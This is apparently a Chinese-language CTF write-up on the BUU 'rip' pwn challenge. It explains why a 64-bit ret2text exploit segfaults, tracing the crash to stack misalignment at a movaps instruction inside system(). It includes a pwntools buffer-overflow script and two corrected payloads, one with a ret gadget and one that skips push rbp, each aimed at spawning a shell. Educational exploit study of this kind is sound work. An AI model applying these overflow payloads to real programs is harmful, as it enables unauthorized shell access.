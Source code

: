 # 堆栈对齐——关于64位程序ret2text失败的溯源


## 起

以一道简单的pwn题说明，题目参见[BUU-rip](https://buuoj.cn/challenges#rip)

- 查看保护信息，啥都没开，amd64

```shell
❯ checksec ./pwn1
[*] '/home/dx3906/CTF/problem/pwn/buu/rip/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

- 运行

```shell
❯ ./pwn1
please input
abc
abc
ok,bye!!!
```

- 拖入ida

```c
// main
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets((__int64)s, (__int64)argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
// backdoor
int fun()
{
  return system("/bin/sh");
}
// fun 汇编
.text:0000000000401186 fun             proc near
.text:0000000000401186 ; __unwind {
.text:0000000000401186                 push    rbp
.text:0000000000401187                 mov     rbp, rsp
.text:000000000040118A                 lea     rdi, command    ; "/bin/sh"
.text:0000000000401191                 call    _system         ; Call Procedure
.text:0000000000401196                 nop                     ; No Operation
.text:0000000000401197                 pop     rbp
.text:0000000000401198                 retn                    ; Return Near from Procedure
.text:0000000000401198 ; } // starts at 401186
.text:0000000000401198 fun             endp
```

所以解题思路就是通过main的gets函数进行栈溢出，覆盖返回地址，跳转到fun执行得到shell

由此得到exp

```python
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
p = process("./pwn1")
payload = b'a'*23 + p64(0x401186)
p.sendlineafter(b"please input\n",payload)
p.interactive()
```

但是get shell失败

## 承

于是去百度了一下，发现各种wp的payload中间多塞了一个地址0x401198，即`payload = b'a'*23 + p64(0x401198) + p64(0x401186)`，试了一下确实可行

文章原因说是为了恢复堆栈平衡，什么是堆栈平衡呢？

我理解的是：在函数调用结束之后，将堆栈恢复到调用之前的样子，从汇编层面来说就是复原esp与ebp

但payload里加了0x401198这个地址只是多执行了一条retn，最多也只是让esp+4之类的，这就能控制堆栈平衡了？我百思不得其解

## 转

拿gdb attach上去调发现了问题，跳转fun调用system函数时包括传参都是正常的，但会断在这一行汇编上

```nasm
0x7fad5eadef43    movaps xmmword ptr [rsp + 0x50], xmm0
; 报错
; Program received signal SIGSEGV, Segmentation fault.
```

在执行glibc中的system系统调用时，很可能会用到movaps指令

movaps：在两个XMM寄存器或XMM寄存器与内存之间移动四个单精度浮点值。要求如果涉及内存，则内存地址必须按16字节对齐，即16进制表示的地址最后一位必须是0

此处可打印rsp+0x50发现确实不符合要求

```shell
pwndbg> p $rsp+0x50
$1 = (void *) 0x7fffd26e4508
```

需要rsp+0x50按16字节对齐，更进一步来说，就是要rsp寄存器指向的地址按16字节对齐，而能够使rsp寄存器变化的无非call、retn、push、pop这些指令。

实际上，程序在正常运行情况下，编译器能保证编译出来的这些指令有序运作，当需要进行system调用时，一定是16字节对齐，使用movaps指令不会产生错误

只有程序堆栈被非正常地修改，程序进行非预期行为时，才可能会出现无法对齐的情况，从而引发`Segmentation fault`，使程序异常退出

再深入去想，由于是64位程序，所以rsp每次的变化要么是rsp-=8,要么是rsp+=8，故rsp所指地址最后一位其实只有两个取值，0或8，为0时堆栈对齐，为8时会引发错误

在进行ret2text时，我们覆盖了函数返回地址，程序本该返回至调用处，却进入了一个新的函数。

在此之前，rsp指向的地址一直是正常的，与程序正常执行无异的，但新函数第一句要执行压栈命令`push rbp`，此时rsp-=8，于是rsp最后一位变成了8，进行system调用时发生错误

那么如何避免错误呢？

显而易见的，我们需要修改rsp寄存器的值，无论是加8还是减8，但同时必须合理利用返回地址才能进行跳转。于是，retn成为了一个很好的选择，我们可以提前布栈，先压入一个retn指令的地址，再压入后门函数的地址

程序首先执行retn指令即`pop rip`使rsp+8，此时紧随其后后门函数的地址赋值给rip，下一步进入后门函数，当执行`push rbp`时rsp-8，此时rsp最后一位变回0，程序正常执行

换一种思路？

既然我们知道了是多了一句`push rbp`出了问题，那我们是不是可以跳过这一句呢？答案是肯定的，我们可以直接把返回地址改为system调用之前传参的地址，即`payload = b'a'*23 + p64(0x40118A)`，一样可以get shell

## 合

64位程序ret2text失败简单以没有平衡堆栈来解释是极不负责的做法

平衡堆栈是指在函数调用结束后，将堆栈恢复到原来的状态。

但我们在利用栈溢出漏洞进行攻击时，并不关心函数调用结束后的状态。只是需要在系统调用之前保证堆栈对齐即可

## Ref

- https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call

- https://research.csiro.au/tsblog/debugging-stories-stack-alignment-matters/

- https://ropemporium.com/guide.html

以上，如有疏漏请师傅们指出

